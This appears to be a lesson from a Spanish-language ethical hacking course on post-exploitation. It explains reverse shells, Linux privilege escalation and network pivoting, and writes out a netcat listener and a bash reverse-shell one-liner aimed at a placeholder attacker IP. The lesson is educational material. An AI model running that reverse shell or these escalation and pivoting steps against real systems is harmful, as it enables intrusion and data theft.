

# Post-Explotación, Reverse Shells y Pivoting (🔥)

Lograste explotar una vulnerabilidad crítica (como Subida Arbitraria de Archivos o Inyección de Comandos) y obtuviste RCE (Ejecución Remota de Código). Tienes acceso al servidor, pero no eres el Administrador (Root). 

Estás atrapado en un usuario restringido de sistema (ej. `www-data` de Apache). En este nivel final y extremo, aprenderemos qué hace un Hacker Etico Profesional (Red Teamer) una vez que está dentro de la red corporativa enemiga.

## 1. El Reverse Shell (Consola Inversa)

Un Firewall corporativo bloquea todas las conexiones *Entrantes*. Si intentas conectarte por SSH o Telnet al servidor hackeado, el Firewall te bloqueará.

Para evadir esto, usamos un **Reverse Shell**. No te conectas tú al servidor, ordenas al servidor que *él* se conecte a ti (Conexión *Saliente*), porque los firewalls rara vez bloquean el tráfico saliente.

1. **Tu PC (Atacante):** Abres un puerto de escucha `nc -lvnp 4444`.
2. **Servidor (Víctima):** Ejecutas el payload a través de la vulnerabilidad web:
   `bash -i >& /dev/tcp/IP_DEL_ATACANTE/4444 0>&1`
3. Resultado: Obtienes una consola de comandos interactiva del servidor directamente en tu terminal local.

## 2. Escalamiento de Privilegios (PrivEsc)

Ser el usuario `www-data` no sirve de mucho; no puedes leer la base de datos de los empleados, ni los archivos `/etc/shadow` que contienen las contraseñas del sistema. Necesitas convertirte en `root`.

El proceso de Privilege Escalation involucra buscar errores de configuración interna:
* **Binarios SUID/SGID:** Archivos del sistema que fueron configurados para ejecutarse siempre con permisos de administrador. Si encuentras (por ejemplo) `find` o `tar` con SUID, puedes usarlos para leer archivos protegidos.
* **Cron Jobs mal configurados:** Tareas programadas ejecutadas por `root` que llaman a scripts que tienen permisos de escritura para tu usuario. (Modificas el script para que te dé una shell de root en la próxima ejecución).
* **Kernel Exploits (Dirty Cow / PwnKit):** Si el servidor Linux no ha sido actualizado en años, compilas un exploit público en C, lo ejecutas, y automáticamente ganas acceso root por un fallo en el núcleo del sistema operativo.

## 3. Pivoting y Lateral Movement (Movimiento Lateral)

Hackeaste el servidor web principal. Pero la Base de Datos con las tarjetas de crédito está en una red interna (Intranet) sin acceso a Internet.

El **Pivoting** significa usar el servidor web comprometido como un puente (Enrutador) para atacar las redes internas de la empresa.

Usando herramientas como `Chisel` o `Proxychains`, estableces un túnel encriptado desde tu PC portátil, pasando por el servidor web hackeado, y disparas ataques directamente contra la Base de Datos Interna como si estuvieras sentado físicamente en las oficinas de la empresa.

Has alcanzado el cenit de la Ciberseguridad. Eres un **Offensive Security Professional**, capaz de auditar la arquitectura completa de una corporación multinacional.
